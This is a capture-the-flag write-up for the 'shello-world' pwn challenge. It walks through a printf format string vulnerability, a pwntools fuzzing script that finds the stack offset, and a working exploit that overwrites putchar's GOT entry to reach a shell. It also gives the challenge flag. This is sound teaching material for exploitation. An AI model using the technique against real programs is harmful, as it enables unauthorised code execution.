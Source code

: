 # SHELLO-WORLD

## Description

> Greetings, traveler
>
> Author: tomadimitrie
>
> [shello-world](./shello-world)

Tags: _pwn|warmup_

## Solution

Before even running the program, I like to examine the source code using `ghidra` to understand exactly what it does. The program consists of three functions: _main_, _vuln_ and _win_. The _win_ function grants access to a shell, which is our objective to achieve in order to win. The _main_ function simply calls the _vuln_ function, and the _vuln_ function is as follows:

```c
void vuln(void)

{
  ...

  fgets((char *)&local_108,0x100,stdin);
  printf("Hello, ");
  printf((char *)&local_108);
  putchar(10);
  return;
}
```

It defines several local variables and uses `fgets` to retrieve user input, with a buffer size of `0x100` in hexadecimal or `256` in decimal. After that, it prints "Hello, " followed by the user input and concludes by calling `putchar(10)` to print a newline.

I tried to perform a buffer overflow against this binary, but it didn't work due to the input length restriction imposed by `fgets`. However, there is still a way to exploit this program using a `string format vulnerability`, where the attacker can read information from the stack or even gain an arbitrary write primitive. We can confirm that the binary is vulnerable because if we input format string specifiers like `%p`, it will start leaking pointers from the stack.

```
$ ./shello-world
%p %p %p %p
Hello, 0x7fff2bae3e30 (nil) (nil) 0x1
```

To exploit this vulnerability, we need to follow these steps:

1. Find the offset from where `printf` starts reading from the stack to our input. This offset will be used later to building the exploit.
2. Identify a function that is called after the vulnerable `printf`, like `putchar`.
3. Create the appropriate exploit to overwrite the address of the target function (`putchar`) in the Global Offset Table (GOT) with the address of the _win_ function. This way, when the program calls `putchar`, it will actually call _win_.

To find the offset I used the following Python script that sends the payload `AAAAAAAA%[counter]%p` to the program 100 times and retrieve the responses.

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF("shello-world", checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        io = process(elf.path, level='error')
        # Print the pointer at offset i
        io.sendline(b'A'*8 + '%{}$p'.format(i).encode())
        # Receive the response with a large buffer size
        result = io.recv(4096)
        # Find the position of 'Hello, ' in the response
        hello_pos = result.find(b'Hello, ')
        if hello_pos != -1:
            # Extract the formatted value from the response
            formatted_value = result[hello_pos + len(b'Hello, '):].strip()
            print(f"{i}: {formatted_value}")
        # Exit the process
        io.close()
    except EOFError:
        pass
```

The output of the script should look like this:

```
$ python fuzz.py
0: b'AAAAAAAA%0$p'
1: b'AAAAAAAA0x7ffdc830b720'
2: b'AAAAAAAA(nil)'
3: b'AAAAAAAA(nil)'
4: b'AAAAAAAA0x1'
5: b'AAAAAAAA(nil)'
6: b'AAAAAAAA0x4141414141414141'
7: b'AAAAAAAA0xa70243725'
8: b'AAAAAAAA(nil)'
...
```

We can see that our input `AAAAAAAA` is written at the offset `6` in the stack, remember that `4141414141414141` is `AAAAAAAA` in hexadecimal.

After finding the offset, we can write the payload manually but the formula to do that gets a little bit complex, however you can read how to do it [here](https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack)

Instead I used the `pwntools` module `FmtStr()` to automate the calculation and exploitation. Remember that everything else outside the exploit section is a template where you should change just a few things like the `REMOTE` parameters with the connection values of your container.

```python
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("shello-world")

# Defining the GDB script that will be used when running the binary
gs = '''
continue
'''
# Launch the binary with GDB, without GDB or REMOTE based on the command-line arguments
def start():
    if args.REMOTE:
        return remote("challs.tfcctf.com", 31769)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

#============================================================
#                    EXPLOIT GOES HERE
#============================================================

# Create the FmtStr object and specify the offset to the first argument on the stack
format_string = FmtStr(execute_fmt=io.sendline, offset=6)

# Overwrite putchar() in GOT with win()
format_string.write(elf.got.putchar, elf.sym.win)

# Execute the format string writes
format_string.execute_writes()

#============================================================

# Interact with the process
io.interactive()
```

Execute the script with the `REMOTE` parameter and get the flag!

```shell
$ ./solve.py REMOTE
[*] '/home/jovenoven/Downloads/TFC_CTF/pwn/shello-world/shello-world'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs.tfcctf.com on port 30965: Done
[*] format string offset: 6
[*] address to overwrite (elf.got.printf): 0x404000
[*] address to write (elf.sym.win): 0x401176
[*] Switching to interactive mode
Hello,                                                                                                                                                                                                                                                                                 \x00                                              7aaaab$
$ whoami
ctf
$ ls
flag.txt
shello-world
$ cat flag.txt
TFCCTF{ab45ed10bb240fe11c5552d3db6776f708c650253755e706268b45f3aae6d925}
```

Flag `TFCCTF{ab45ed10bb240fe11c5552d3db6776f708c650253755e706268b45f3aae6d925}`
